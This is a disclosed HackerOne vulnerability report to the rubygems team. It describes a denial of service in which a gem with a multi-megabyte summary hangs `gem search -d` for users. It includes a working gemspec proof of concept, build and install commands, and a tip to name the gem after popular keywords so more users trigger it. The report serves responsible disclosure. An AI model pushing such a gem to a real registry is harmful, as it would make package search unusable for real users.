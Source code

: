 # No limit of summary length allows Denail of Service

## Report Details
- **Report ID**: 243003
- **URL**: https://hackerone.com/reports/243003
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-06-25T07:53:33.914Z
- **Disclosed**: 2017-08-31T23:19:29.517Z

## Reporter
- **Username**: mame
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
Currently, there is no limit for summary length.  I think, pushing a gem whose summary is huge, will make `gem search` unavailable.

This is not Arbitrary Code Execution, but really easy to attack.  According to CVSS v3.0 Calculator, the severity is High (7.5).

## How to attack

1) An attacker creates a gem with huge summary string, and push it to rubygems.org.
2) A victim runs `gem search -d <substring-of-the-name-of-the-gem>`, but it will give no response.

It may be good for the gem name to include a frequently-searched keyword, such as "foo-rails-bar" or "foo-sinatra-bar".

## Proof of concept

1) Prepare the following gemspec.

~~~~
Gem::Specification.new do |spec|
  spec.name     = "huge-summary"
  spec.version  = "0.0.1"
  spec.authors  = ["Yusuke Endoh"]
  spec.email    = ["mame@ruby-lang.org"]
  spec.summary  = "foo" * 10000000
  spec.homepage = "http://example.com/"
  spec.license  = "MIT"
end
~~~~

2) Run the following commands

~~~~
gem build huge-summary.gemspec
gem install huge-summary-0.0.1.gem
~~~~

3) Run the following command.

~~~~
gem query huge-summary -d
~~~~

It will not answer.

## Attachments
No attachments
